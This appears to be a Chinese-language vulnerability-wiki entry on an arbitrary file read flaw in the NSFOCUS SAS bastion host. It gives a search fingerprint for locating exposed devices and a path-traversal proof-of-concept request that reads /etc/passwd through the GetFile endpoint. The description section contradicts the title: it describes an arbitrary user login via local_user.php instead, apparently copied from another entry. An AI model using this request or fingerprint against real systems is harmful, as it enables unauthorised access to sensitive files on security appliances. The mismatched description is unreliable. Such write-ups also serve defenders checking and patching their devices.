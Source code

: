 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8.png)

漏洞存在于文件 GetFileController.php 文件中

![img](../../../.vuepress/public/img/1691645164688-78430d67-4ce1-4d26-8854-5d330b034c5e.png)

验证POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image.png](../../../.vuepress/public/img/1688361725621-1d85a406-2f2c-492a-8c0f-5d54ea282f2a.png)